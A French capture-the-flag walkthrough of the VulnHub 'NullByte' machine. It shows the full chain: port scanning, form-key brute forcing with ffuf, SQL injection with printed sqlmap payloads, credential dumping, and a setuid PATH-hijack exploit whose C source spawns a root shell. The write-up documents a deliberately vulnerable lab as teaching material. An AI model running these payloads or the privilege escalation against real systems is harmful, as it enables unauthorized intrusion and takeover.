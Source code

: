 # Solution du CTF NullByte de VulnHub

[NullByte](https://vulnhub.com/entry/nullbyte-1,126/) est un CTF proposé sur VulnHub et datant du mois d'aout 2015. Il est plutôt simple mais attention le début est *un peu* orienté stéganographie ce qui peu dérouter les participants.

```
Nmap scan report for 192.168.56.93
Host is up (0.0012s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Null Byte 00 - level 1
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          45635/udp6  status
|   100024  1          46283/tcp6  status
|   100024  1          50378/udp   status
|_  100024  1          55523/tcp   status
777/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 163013d9d55536e81bb7d9ba552fd744 (DSA)
|   2048 29aa7d2e608ba6a1c2bd7cc8bd3cf4f2 (RSA)
|   256 6006e3648f8a6fa7745a8b3fe1249396 (ECDSA)
|_  256 bcf7448d796a194876a3e24492dc13a2 (ED25519)
55523/tcp open  status  1 (RPC #100024)
```

Sur la page d'index juste une image GIF. On lé télécharge et on lance `exiftool` dessus :

```
$ exiftool main.gif 
ExifTool Version Number         : 12.50
File Name                       : main.gif
Directory                       : .
File Size                       : 17 kB
File Permissions                : -rw-r--r--
File Type                       : GIF
File Type Extension             : gif
MIME Type                       : image/gif
GIF Version                     : 89a
Image Width                     : 235
Image Height                    : 302
Has Color Map                   : No
Color Resolution Depth          : 8
Bits Per Pixel                  : 1
Background Color                : 0
Comment                         : P-): kzMb5nVYJw
Image Size                      : 235x302
Megapixels                      : 0.071
```

Le commentaire sur l'image correspond à un nom de dossier sur le serveur web. On y trouve un formulaire qui demande une clé, visiblement il n'y a pas de backend derrière, la solution doit être hardcodée :

```html
<center>
<form method="post" action="index.php">
Key:<br>
<input type="password" name="key">
</form> 
</center>
<!-- this form isn't connected to mysql, password ain't that complex --!>
```

Par conséquent on peut se permettre de bourriner pour trouver cette clé :

```shellsession
$ ffuf -u "http://192.168.56.93/kzMb5nVYJw/index.php" -w wordlists/rockyou.txt -X POST -d "key=FUZZ" -H "Content-type: application/x-www-form-urlencoded" -fs 244

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://192.168.56.93/kzMb5nVYJw/index.php
 :: Wordlist         : FUZZ: wordlists/rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : key=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 244
________________________________________________

elite                   [Status: 200, Size: 145, Words: 9, Lines: 7]
```

Ce mot de passe tombe assez rapidement. Quand on le saisit on parvient sur un script PHP auquel on peut passer un nom d'utilisateur :

http://192.168.56.93/kzMb5nVYJw/420search.php?usrtosearch=yoyo

Le script indique juste :

> Fetched data successfully

J'ai d'abord pensé à un SSRF puisque 420 fait penser à un code HTTP mais si on place une apostrophe on obtient une erreur SQL.

On passe l'URL à `sqlmap` qui n'en fait qu'une bouchée :

```
---
Parameter: usrtosearch (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: usrtosearch=yoyo" OR NOT 1289=1289-- SoOq

    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: usrtosearch=yoyo" AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7162716a71,(SELECT (ELT(8532=8532,1))),0x716b7a7671,0x78))s), 8446744073709551610, 8446744073709551610)))-- sYSg

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: usrtosearch=yoyo" AND (SELECT 9187 FROM (SELECT(SLEEP(5)))kiRz)-- BroV

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: usrtosearch=yoyo" UNION ALL SELECT CONCAT(0x7162716a71,0x4a6f4b4a766e58634f566e4f6c774e66584948715273724957686147764c687863414f6e7a434e42,0x716b7a7671),NULL,NULL-- -
---
```

En rajoutant les options de dump habituelles j'obtiens des identifiants dans `seth.users` :

```
Database: seth
Table: users
[2 entries]
+----+---------------------------------------------+--------+------------+
| id | pass                                        | user   | position   |
+----+---------------------------------------------+--------+------------+
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
| 2  | --not allowed--                             | isis   | employee   |
+----+---------------------------------------------+--------+------------+
```

Le base64 se décode avec un warning en `omega`. Les identifiants `ramses` / `omega` permettent de se connecter en SSH sur le port 777.

Sous `/var/www` je trouve un dossier `backup` contenant un binaire setuid root :

```shellsession
ramses@NullByte:/var/www/backup$ ls
total 20K
drwxrwxrwx 2 root root 4.0K Aug  2  2015 .
drwxr-xr-x 4 root root 4.0K Aug  2  2015 ..
-rwsr-xr-x 1 root root 4.9K Aug  2  2015 procwatch
-rw-r--r-- 1 root root   28 Aug  2  2015 readme.txt
ramses@NullByte:/var/www/backup$ cat readme.txt 
I have to fix this mess...
```

Le binaire est très simple, il appelle juste la commande `ps` via `system()` qui est sujet aux altérations de l'environnement.

```nasm
int main (int argc, char **argv, char **envp);
; var const char *string @ ebp-0x3a
; var int32_t var_4h @ ebp-0x4
; arg char **argv @ esp+0x64
0x080483fb      lea     ecx, [argv]
0x080483ff      and     esp, 0xfffffff0
0x08048402      push    dword [ecx - 4]
0x08048405      push    ebp
0x08048406      mov     ebp, esp
0x08048408      push    ecx
0x08048409      sub     esp, 0x44
0x0804840c      lea     eax, [string]
0x0804840f      mov     word [eax], 0x7370 ; 'ps'
0x08048414      mov     byte [eax + 2], 0
0x08048418      sub     esp, 0xc
0x0804841b      lea     eax, [string]
0x0804841e      push    eax        ; const char *string
0x0804841f      call    system     ; sym.imp.system ; int system(const char *string)
0x08048424      add     esp, 0x10
0x08048427      mov     eax, 0
0x0804842c      mov     ecx, dword [var_4h]
0x0804842f      leave
0x08048430      lea     esp, [ecx - 4]
0x08048433      ret
```

Je compile un petit programme sous le nom `ps` qui va fixer mes uids effectif et réel à 0 puis je modifie le PATH pour que mon programme ait la priorité :

```shellsession
$ ramses@NullByte:/var/www/backup$ cat getroot.c 
#include <unistd.h>
#include <stdlib.h>

int main(void) {
        setreuid(0, 0);
        system("/bin/dash");
        return 0;
}
ramses@NullByte:/var/www/backup$ gcc -o ps getroot.c 
ramses@NullByte:/var/www/backup$ export PATH=.:$PATH
ramses@NullByte:/var/www/backup$ ./procwatch 
# id
uid=0(root) gid=1002(ramses) groups=1002(ramses)
# cd /root
# ls
proof.txt
# cat proof.txt
adf11c7a9e6523e630aaf3b9b7acb51d

It seems that you have pwned the box, congrats. 
Now you done that I wanna talk with you. Write a walk & mail at
xly0n@sigaint.org attach the walk and proof.txt
If sigaint.org is down you may mail at nbsly0n@gmail.com


USE THIS PGP PUBLIC KEY

-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: BCPG C# v1.6.1.0

mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ
Q3tO375S1KRrYxhHjEh0HKwTBCIopIcRFFRy1Qg9uW7cxYnTlDTp9QERuQ7hQOFT
e4QU3gZPd/VibPhzbJC/pdbDpuxqU8iKxqQr0VmTX6wIGwN8GlrnKr1/xhSRTprq
Cu7OyNC8+HKu/NpJ7j8mxDTLrvoD+hD21usssThXgZJ5a31iMWj4i0WUEKFN22KK
+z9pmlOJ5Xfhc2xx+WHtST53Ewk8D+Hjn+mh4s9/pjppdpMFUhr1poXPsI2HTWNe
YcvzcQHwzXj6hvtcXlJj+yzM2iEuRdIJ1r41ABEBAAG0EW5ic2x5MG5AZ21haWwu
Y29tiQEcBBABAgAGBQJVvQV/AAoJENDZ4VE7RHERJVkH/RUeh6qn116Lf5mAScNS
HhWTUulxIllPmnOPxB9/yk0j6fvWE9dDtcS9eFgKCthUQts7OFPhc3ilbYA2Fz7q
m7iAe97aW8pz3AeD6f6MX53Un70B3Z8yJFQbdusbQa1+MI2CCJL44Q/J5654vIGn
XQk6Oc7xWEgxLH+IjNQgh6V+MTce8fOp2SEVPcMZZuz2+XI9nrCV1dfAcwJJyF58
kjxYRRryD57olIyb9GsQgZkvPjHCg5JMdzQqOBoJZFPw/nNCEwQexWrgW7bqL/N8
TM2C0X57+ok7eqj8gUEuX/6FxBtYPpqUIaRT9kdeJPYHsiLJlZcXM0HZrPVvt1HU
Gms=
=PiAQ
-----END PGP PUBLIC KEY BLOCK-----
```

*Publié le 3 janvier 2023*